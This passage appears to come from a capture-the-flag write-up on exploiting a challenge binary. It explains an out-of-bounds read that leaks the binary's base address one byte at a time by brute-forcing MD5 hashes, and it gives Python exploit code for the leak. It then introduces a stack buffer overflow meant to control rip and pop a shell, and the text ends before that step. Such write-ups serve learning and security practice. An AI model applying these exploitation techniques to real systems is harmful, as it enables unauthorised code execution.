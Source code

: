 Here is the heap layout just before the call to `md5_hex`. `rdi` is `filename`.

![Heap layout before `md5_hex`](img/oob.jpg)

So we can leak the base address of the binary one byte a time starting by
reading 0x28 bytes, then 0x27 and so on until 0x20 bytes. We start by reading
0x28 bytes because of the null byte overwrite at the end of the `read_buffer`
function. Each read will produce a hash, the path of the file. With 8 hashes we
just have to bruteforce one byte per hash.  

There follows the exploit code for the leak :
```py
"""
" leak exe
"""
hashes = []
for i in range(8):
    path = upload(0x20 + 8 - i, b"abcd", 1, b"x")
    hashes.append(path)

leak = b""
for target in hashes[::-1]:
    for bf in range(0x100):
        b = bytes([bf])
        h = hashlib.md5()
        h.update(b"abcd".ljust(0x18, b"\x00") + p64(0x21) + leak + b)
        if target == h.hexdigest().encode():
            leak += bytes([bf])
            break

exe.address = u64(leak) - 0x142b
print(f"exe @ {hex(exe.address)}")
```

## Leak libc base address and pop a shell !
We now have the base address of the binary. We also found a stack-based buffer
overflow. Let's exploit it to control `rip`.

The vulnerability is in `read_file_content` it allows us to write a buffer of
the size of our choice on the stack.
